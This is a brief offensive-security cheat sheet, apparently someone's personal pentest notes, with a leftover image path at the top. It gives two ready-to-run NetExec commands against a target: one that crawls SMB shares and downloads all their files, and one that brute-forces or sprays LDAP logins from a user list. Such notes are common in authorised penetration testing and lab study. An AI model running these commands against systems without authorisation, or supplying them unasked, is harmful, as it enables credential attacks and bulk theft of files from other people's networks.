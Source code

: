 
## Dump all files from the available shares
Files saved to the following directory in Kali linux
/tmp/nxc_hosted/nxc_spider_plus]
```
nxc smb $target -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
```
## brute force
```
netexec ldap  $target -u users.txt   -p '$pass'
```
